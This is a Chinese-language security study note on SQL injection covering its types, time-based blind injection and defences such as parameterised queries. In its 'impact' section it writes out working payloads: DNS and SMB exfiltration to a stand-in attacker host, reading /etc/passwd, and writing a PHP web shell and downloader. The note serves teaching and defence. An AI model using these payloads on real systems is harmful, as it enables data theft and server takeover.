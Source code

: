 # SQL注入漏洞

### 原理

SQL injection主要是对用户请求中的输入参数过滤不严格造成的，如动态拼接字符串。

### 类型
* boolean-based blind
* time-based blind
* error-based
* UNION query-based
* stacked queries
* out-of-band

### 漏洞影响

（以时间型盲注为例）

**时间型盲注(Time-Based Blind SQL Injection Attacks)**：可根据不同响应时间确定是否存在SQL注入漏洞

* Test case
  * 如对某个使用MySQL数据库的WEB系统测试时发送的请求含payload `(select*from(select(sleep(20)))a)` 得到response的时间为20秒

* Attacks case
  * 时间型盲注漏洞 只需利用 条件语法(Condition syntax) 与延时函数 就能判断出执行结果True/False 根据结果判断逐个字符 从而得到数据库中的具体数据
    * [Time-Based Blind SQL Injection Attacks](http://www.sqlinjection.net/time-based/)
      * MySQL`SLEEP(time)` `BENCHMARK(count, expr)`
      * SQL Server`WAIT FOR DELAY 'hh:mm:ss'` `WAIT FOR TIME 'hh:mm:ss'`
      * Oracle
    * [Timing-based Blind SQL Attacks – Hacker Noon](https://hackernoon.com/timing-based-blind-sql-attacks-bd276dc618dd)
      * Postgres`SELECT CASE WHEN secret = 'secret' THEN pg_sleep(5) ELSE NULL END FROM apps WHERE id = 1 ;`
    * 自写脚本实现自动化获取(用二分法加速判断)

```
test.get_version() #获取版本号
test.get_user_first() #获取数据库用户权限
test.get_user_count() #获取数据库用户数量
test.get_user_len() #获取数据库用户长度
test.get_user() #获取数据库当前用户名
test.get_db_count() #获取数据库数量
test.get_db_len() #获取数据库长度
test.get_database() #获取数据库名
test.get_table_len() #获取表名长度
test.get_table() #获取表名
test.get_columns_len() #获取字段名长度
test.get_columns() #获取字段名
test.get_content() #获取第一列第一个字段内容
```


[SQLi漏洞的各种具体利用方式【漏洞危害】 - The SQL Injection Knowledge Base](https://websec.ca/kb/sql_injection#MySQL_Writing_Files)

* 数据泄露 - 带外通道得到数据(Out Of Band Channeling)
  * DNS Requests
    * `SELECT LOAD_FILE(CONCAT('\\\\foo.',(select MID(version(),1,1)),'.attacker.com\\'));`
  * SMB Requests
    * `' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt`
* 读取文件内容(Reading Files) Files can be read if the user has FILE privileges.
  * LOAD_FILE()
    * `SELECT LOAD_FILE('/etc/passwd');`
    * `SELECT LOAD_FILE(0x2F6574632F706173737764);`
* 写入文件(Writing Files) Files can be created if the user has FILE privileges.
  * `INTO OUTFILE` `INTO DUMPFILE`
    * PHP shell `SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';` access `http://localhost/shell.php?c=cat%20/etc/passwd`
    * PHP downloader `SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'` access `http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt`


### 防御方法

* 1. 预编译语法/参数化查询

```
//PHP
//PDO扩展中的 bindParam()方法绑定参数
```

```
//.NET
//SqlCommand()
//OleDbCommand()
```

```
//JAVA
PreparedStatement()
/(Hibernate
createQuery()
```

```
//SQLite
sqlite3_prepare()
```

```
// Golang(Postgres)
// This is for Postgres. Other SQL variants may use the ? character.
db.Exec("INSERT INTO users(name, email) VALUES($1, $2)",
  "Jon Calhoun", "jon@calhoun.io")
```

```
// Golang(mysql)
// http://mindbowser.com/golang-go-database-sql/
package main
 import (
 _ "github.com/go-sql-driver/mysql"
 "database/sql"
 "log"
 )
 
 func main(){
 db, err := sql.Open("mysql", "root:root@tcp(127.0.0.1:3306)/employeedb")
 
 // Connection Pooling methods
 db.SetConnMaxLifetime(500)
 db.SetMaxIdleConns(50)
 db.SetMaxOpenConns(10)
 db.Stats()
 
 if err != nil {
 log.Fatal(err)
 }
 tx,_:=db.Begin()
 stmt, err := tx.Prepare("INSERT INTO user(id,username) VALUES(?,?)")
 res,err:=stmt.Exec(4,"Abhijit")
 res,err=stmt.Exec(5,"Yogesh")
 if err!=nil{
 tx.Rollback()
 log.Fatal(err)
 }
 tx.Commit()
 log.Println(res)
}
```


* 2. 存储过程

存储过程的安全性和预编译语法相同。
存储过程是用"SQL代码"定义和存储在数据库中的，使用时被应用程序调用。
如果使用了存储过程，开发者应该避免在存储过程中生成不安全的动态SQL查询语句。
```
//JAVA中使用存储过程，该存储过程已经定义在数据库中:
String custname = request.getParameter("customerName");
try {
    CallableStatement cs = connection.prepareCall("{call sp_getAccountBalance(?)}");
    cs.setString(1, custname);
    ResultSet results = cs.executeQuery();
} catch (SQLException se) {
}
```

* 3. 白名单输入验证(White List Input Validation)

* 4. 数据库用户权限最小化(Least Privilege)

OWASP防御SQL注入的参考 https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet
